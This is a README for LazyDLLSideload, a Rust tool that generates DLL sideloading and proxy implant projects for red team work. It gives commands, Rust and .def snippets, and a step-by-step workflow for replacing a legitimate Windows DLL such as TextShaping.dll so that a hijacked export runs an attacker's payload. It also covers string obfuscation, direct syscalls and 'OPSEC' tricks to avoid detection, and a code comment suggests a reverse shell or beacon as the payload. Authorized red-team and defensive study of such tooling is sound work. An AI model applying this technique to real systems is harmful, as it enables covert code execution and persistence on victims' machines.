


# LazyDLLSideload

A Rust-based tool for generating DLL proxy/sideload projects for red team engagements. Automatically parses PE export tables and generates ready-to-compile Rust projects with your payload embedded.

## Overview

LazyDLLSideload automates the process of creating DLL proxying and sideloading implants.
- Uses windows_sys Ecosystem.
- Parses any Windows DLL to extract exported functions
- Generates complete Rust projects
- Strings obfuscation. Decrypts at Runtime.  
- Supports two operation modes: **Sideload** and **Proxy**
- Uses [dyncvoke](https://github.com/Whitecat18/dyncvoke) for dynamic invocation and syscall execution for proxy loads.

## Installations

### Install as package

Use it anywhere anypath..

```bash
cargo install LazyDLLSideload
```

### Clone the repository

```bash
git clone https://github.com/Whitecat18/LazyDLLSideload.git
cd LazyDLLSideload
cargo b -r ; cp target/release/LazyDLLSideload.exe . 
```

# Usage

## Mode 1: Sideload

Sideload mode creates a DLL that replaces the original, executing your payload when a specific exported function is called. The original DLL is not used - this is a pure sideload attack.

### How It Works

1. The tool parses the target DLL to get all exported functions
2. Generates stub functions for all exports (except the hijacked one)
3. Creates a `lib.rs` with a hijacked function that executes your payload
4. On build, you get a DLL with all the required exports

### Example

```bash
# Generate sideload project for libvlc.dll
./LazyDLLSideload.exe -m sideload -p ./libvlc.dll -e libvlc_new
```

This generates a project where:
- `libvlc_new` is the hijacked export (triggers payload)
- All other exports are empty stubs
- The target app loads your DLL directly

POC: 


---

## Mode 2: Proxy Mode

Proxy mode creates a sophisticated DLL that:
1. Forwards all function calls to the original (renamed) DLL
2. Intercepts (hijacks) one specific function to execute your payload
3. Maintains full functionality of the original DLL

This is the classic proxying technique - the original DLL is renamed and your proxy DLL sits in its place, forwarding calls while intercepting specific functions.

### Key Compoments

#### 1. The Dispatch Function

The dispatch function is the heart of the proxy. It:
- Uses `dyncvoke` to dynamically load the original DLL
- Resolves function addresses at runtime using `GetFunctionAddress`
- Caches resolved addresses in a callback table to avoid repeated lookups
- Uses a sync lock to ensure payload only executes once

```rust
fn dispatch_call(
    a1-u64, a2-u64, ..., a20-u64,
    export_id: u32  // Which function was called (0 = hijacked)
) -> u64
```

#### 2. Export Forwarding

Non-hijacked exports are forwarded to the original DLL via the `.def` file:

```def
LIBRARY TextShaping
EXPORTS
    BuildOtlCache=Shaping.BuildOtlCache @1
    FreeOtlResources=Shaping.FreeOtlResources @2
    GetOtlFeatureDefs=Shaping.GetOtlFeatureDefs @3
    ...
    ShapingCreateFontCacheData @12    ; Hijacked - handled by dispatch_call
```

This tells the Windows loader to automatically forward calls to `Shaping.dll` (the renamed original).

#### 3. Dynamic Function Invocation (dyncvoke)

The tool uses [dyncvoke](https://github.com/Whitecat18/dyncvoke): 
- **Better OPSEC**: No import table entries for the original DLL
- **Syscalls**: Can use `NtCreateThreadEx` for thread creation (set `NATIVE = true`)
- **No suspicious imports**: The proxy DLL has no explicit dependency on the target DLL

```rust
// Dynamically load the original DLL at runtime
let module_handle = load_library_a(DLL_NAME);

// Resolve the function dynamically
let proc_addr = get_function_address(module_handle, &proc_name);
```

### Two Path Modes

#### Relative Path Mode (Default)

> Note: For Relative path mode. you have to place the original dll where LazyDLLSideload.exe exists... 

When you use a relative path like `-p ./TextShaping.dll`:


```bash
./LazyDLLSideload.exe -m proxy -p ./TextShaping.dll -e ShapingCreateFontCacheData -n Shaping.dll
```

POC: 




Generated `.def` forwarding:
```def
BuildOtlCache=Shaping.BuildOtlCache @1
```

#### Absolute Path Mode

When you use an absolute path like `-p C:\Windows\System32\TextShaping.dll`:

```
1. No renaming needed
2. Deploy the YourProxy.dll in the target directory.
3. DLL_NAME in project will be "C:\\Windows\\System32\\TextShaping.dll"
4. The proxy dll will load Original DLL directly from system32 and forwards to it.
```


```bash
./LazyDLLSideload.exe -m proxy -p C:\Windows\System32\TextShaping.dll -e ShapingCreateFontCacheData
```

Generated `.def` forwarding:
```def
BuildOtlCache=C:\Windows\System32\TextShaping.BuildOtlCache @1
```

POC: 



---

## Usage

### Build the Tool

```bash
cargo build --release
cp target/release/LazyDLLSideload.exe .
```

### Sideload Mode

```bash
./LazyDLLSideload.exe -m sideload -p <path_to_dll> -e <export_to_hijack>
```

### Proxy Mode

```bash
# Relative path mode
./LazyDLLSideload.exe -m proxy -p <path_to_dll> -e <export_to_hijack> -n <renamed_dll>

# Absolute path mode
./LazyDLLSideload.exe -m proxy -p <absolute_path_to_dll> -e <export_to_hijack>
```

### Options

| Option | Description |
|--------|-------------|
| `-m, --mode` | Mode: `sideload` or `proxy` |
| `-p, --path` | Path to target DLL |
| `-e, --export` | Export function name to hijack |
| `-n, --name` | Original DLL name after renaming (Relative proxy path mode only) |

---

## Project Structure

### Sideload Mode

```
project_name/
├── Cargo.toml          # Minimal dependencies (windows-sys only)
└── src/
    ├── lib.rs          # DllMain + hijacked function + payload
    └── forward.rs      # Stub functions for all other exports
```

### Proxy Mode

```
project_name/
├── Cargo.toml          # Includes dyncvoke dependency
├── build.rs            # Links proxy.def
├── proxy.def           # Export table with forwarding
├── dyncvoke/        # Dynamic invocation library
└── src/
    ├── lib.rs          # Gateway + hijacked function
    └── forward.rs      # Stub functions (satisfies linker)
```

---

## Payload Customization

The default payload displays a MessageBox. To customize, edit the generated `lib.rs`:

```rust
fn initialize_component() {
    // Your custom payload here
    // Example: reverse shell, beacon, etc.
}
```

### Native Syscall Mode

In proxy mode, The syscalls more are enabled by default. you can change it using:

```rust
const NATIVE: bool = true;  // Use NtCreateThreadEx via syscall
// vs
const NATIVE: false;       // Use std::thread::spawn
```

---

## Example Workflow (Relative Path Mode)

### 1. Identify Target DLL

```
# Find a DLL the application loads
procmon.exe -> Filter: "Path ends with TextShaping.dll"
```

### 2. Generate Proxy

```bash
./LazyDLLSideload.exe -m proxy -p ./TextShaping.dll -e ShapingCreateFontCacheData -n Shaping.dll
```

### 3. Build

```bash
cd TextShaping
cargo build --release
```

### 4. Deploy

```
# Copy and Rename original dll 
rename TextShaping.dll Shaping.dll

# Deploy
copy target\release\TextShaping.dll .
copy Shaping.dll .

# Now the target app loading TextShaping.dll will:
# - Get full functionality via forwarding
# - Execute payload when ShapingCreateFontCacheData is called
# - Forwards to the original renamed dll Shaping.dll
```

## Requirements

- Rust (1.70+)
- Visual Studio Build Tools (MSVC)
- Windows target: `rustup target add x86_64-pc-windows-msvc`

## LICENSE

The project is under [MIT LICENSE](./LICENSE)
